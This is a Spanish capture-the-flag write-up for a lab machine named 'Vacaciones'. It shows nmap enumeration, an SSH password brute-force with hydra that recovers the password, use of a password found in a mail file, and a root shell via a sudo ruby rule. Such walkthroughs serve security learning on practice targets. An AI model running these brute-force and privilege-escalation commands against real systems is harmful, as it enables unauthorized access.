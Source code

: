 # Vacaciones

## Reconocimiento y Enumeración.

Comprobar que la máquina está en marcha.

```bash
❯ ping -c 1 172.17.0.2
PING 172.17.0.2 (172.17.0.2) 56(84) bytes of data.
64 bytes from 172.17.0.2: icmp_seq=1 ttl=64 time=0.036 ms

--- 172.17.0.2 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.036/0.036/0.036/0.000 ms

```

Una vez nos responde ping y ya podemos empezar enumerando la máquina. El ttl=64 nos puede indicar que sea una máquina **Linux**.

Lanzamos nmap para ver que puertos nos encuentra.

```bash
nmap -sS -p- --open --min-rate 5000 -vvv -n -Pn -oG allPorts 172.17.0.2
```
- `-sS`: Realiza un escaneo SYN.
- `-p-`: Escanea todos los puertos.
- `--open`: Muestra solo los puertos abiertos.
- `--min-rate 5000`: Establece la velocidad mínima de envío de paquetes a 5000 por segundo.
- `-vvv`: Genera una salida muy detallada y verbosa.
- `-n`: Evita la resolución de DNS inversa.
- `-Pn`: Omite la detección de hosts.
- `-oG allPorts`: Guarda los resultados en un archivo llamado "allPorts".
- `172.17.0.2`: La dirección IP del host objetivo.

```bash
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
```

Como tenemos abierto los puerto 22 y 80, vamos a comprobar la versión y lanzar unos scripts básicos para ver que información obtenemos.

```bash
nmap -sCV -p22,80 -vvv -oN versionPorts 172.17.0.2
```
- `-sCV`: Escaneo de versiones y vulnerabilidades.
- `-p22,80`: Escaneo de los puertos 22 (SSH) y 80 (HTTP).
- `-vvv`: Salida muy detallada y verbosa.
- `-oN versionPorts`: Guarda los resultados en "versionPorts".
- `172.17.0.2`: Dirección IP del host escaneado.

```bash
  PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 64 OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 41:16:eb:54:64:34:d1:69:ee:dc:d9:21:9c:72:a5:c1 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCzT6jdfo9QUX+9zCmyJQNTcAJXdhXByneCfqA9I7cXPBFGDGgxNAfQdoiqH3EMiTjf+maPlCNyVHGFl+sClQa5sJwdrbWZiJPxfxGkCtWiSrRdKKUKt/7rCMKMOy79bFRvurgss+57tsglfXkE9FPkZGd3mLruXt5Lyb+8uhFWpW58Df6ZUoSsJi7n0bkXNpEzJAzYHNmRRtv0RsGDFosi/t5KUCMPX67jbM8jsApIVwFIQBTiwzwGQn33G2ZoAJy/NYZ9dkuN2cKM2uItovo25daA+0/SxEfHqAHGquvoMKSj8pcX3qZVD7cGWlsn9c5QNzHRC2DZUSHrK7UIaG0r
|   256 f0:c4:2b:02:50:3a:49:a7:a2:34:b8:09:61:fd:2c:6d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBMD2Z/ZotorXbs6zP9Sg9XenjSX0HIjYjoEH2cAV7aDoQXZKrssz5AJ98j8b4ntOPGfVehrcRv9X7lKswOea9HM=
|   256 df:e9:46:31:9a:ef:0d:81:31:1f:77:e4:29:f5:c9:88 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIK/0ZadHoPSGKg31xFAhPaX854MMS09s5JgdzqmD3jCl
80/tcp open  http    syn-ack ttl 64 Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Como no tenemos ningún usuario todavía vamos a ver qué tenemos en la página http://172.17.0.2 y a simple vista no tenemos nada pero si miramos el código fuente vemos un mensaje.
```
<!-- De : Juan Para: Camilo , te he dejado un correo es importante... -->
```
Ya tenemos dos posibles usuarios, como parece que somos Camilo vamos a aprovechar el puerto 22 (SSH) para con hydra y fuerza bruta intentar descubrir la contraseña.
```bash
hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```
```
❯ hydra -l camilo -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-16 17:45:46
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: camilo   password: password1
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-16 17:45:47
❯ 
```
Obtenemos un password para el usuario camilo y como nos indicaba el mensaje que nos han dejado un correo importante, vamos a conectarnos por ssh y ver si podemos ver el correo.

```bash
❯ ssh camilo@172.17.0.2
camilo@172.17.0.2's password: 
Last login: Thu May 16 15:33:49 2024 from 172.17.0.1
$ whoami
camilo
$
```
Vamos a leer el correo que nos había dejado Juan, el directorio donde se guardan los correos es **/var/correo.**
```bash
cd /var/mail/camilo
```
```bash
$ cd /var/mail/camilo
$ ls
correo.txt
```
Encontramos el correo de juan con la contraseña.
```bash
Hola Camilo,

Me voy de vacaciones y no he terminado el trabajo que me dio el jefe. Por si acaso lo pide, aquí tienes la contraseña: 2k84dicb
```
Cambiamos al usuario Juan con la contraseña obtenida.
```bash
su juan
```
```bash
$ su juan
Password: 
$ whoami
juan
```
Hacemos un tratamiento de la tty y buscamos archivos que podamos utilizar desde juan con permisos de root.
```bash
script /dev/null -c bash
```
```bash
sudo -l
```
```
juan@5fcb0f7841a2:/var/mail/camilo$ sudo -l
Matching Defaults entries for juan on 5fcb0f7841a2:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User juan may run the following commands on 5fcb0f7841a2:
    (ALL) NOPASSWD: /usr/bin/ruby
```
Tenemos permisos para utilizar /usr/bin/ruby con permisos de root siendo juan.
```bash
sudo ruby -e 'exec "/bin/sh"'
```



